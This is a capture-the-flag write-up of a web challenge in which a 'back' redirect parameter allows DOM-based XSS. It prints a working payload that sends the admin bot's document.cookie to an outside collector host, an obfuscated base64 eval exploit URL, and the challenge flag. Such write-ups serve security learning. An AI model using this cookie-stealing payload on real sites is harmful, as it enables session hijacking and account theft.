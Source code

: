 # Snapp fal

```
From now on Snapp can offer you fals if you want.

[Download attachments](https://snappctf.com/tasks/snappfal_0bfd799152fef7299463752d840c3225f64cb259.txz)

**Notes for beginners**

-[https://portswigger.net/web-security/cross-site-scripting/dom-based](https://portswigger.net/web-security/cross-site-scripting/dom-based)

-You need to get XSS on https://snappfal.spchallenge.ir/

-When you got it, report your payload to https://snappfal-support.spchallenge.ir/

-A virtual browser will visit your payload... flag is in the cookies of `snappfal.spchallenge.ir`. Simply write a payload that steals `document.cookie` and submit the payload to [https://snappfal-support.spchallenge.ir/](https://snappfal-support.spchallenge.ir/).

-If your payload doesn't work on Admin bot, contact support.

-Admin closes the browser after 5 seconds.

-`src.js` is the source code of the website.

-`bot.js` is the script that controls the virtual browser ( You can ignore it ).
```

when we visit the website we encounter a page like this

![Pasted image 20240225002811.png](./Pasted image 20240225002811.png)

# Solution

if we click on the button it will be like this for a few seconds and the redirects us to previous page

![Pasted image 20240225002857.png](./Pasted image 20240225002857.png)
if wee look at the page source

![Pasted image 20240225002941.png](./Pasted image 20240225002941.png)

![Pasted image 20240225003052.png](./Pasted image 20240225003052.png)

the input parameter back is for redirecting the user to an arbitrary page. so we can cause a dom-based XSS here by using javascript schema

![Pasted image 20240225003200.png](./Pasted image 20240225003200.png)

the goal of the challenge is to read the flag which is inside admin's cookie

![Pasted image 20240225003246.png](./Pasted image 20240225003246.png)

I used this payload to redirect admin back to my server containing it's cookie as query string

```js
window.location="https://eowlxdv1oni96il.m.pipedream.net/?f="+document.cookie
```

and the finalized url is

```
https://snappfal.spchallenge.ir/fal?back=javascript:eval(atob(%27d2luZG93LmxvY2F0aW9uPSJodHRwczovL2Vvd2x4ZHYxb25pOTZpbC5tLnBpcGVkcmVhbS5uZXQvP2Y9Iitkb2N1bWVudC5jb29raWUK%27))
```

![Pasted image 20240225003815.png](./Pasted image 20240225003815.png)

```
SNAPP{89d36f80b85bde916fbdeb8592c1b368}
```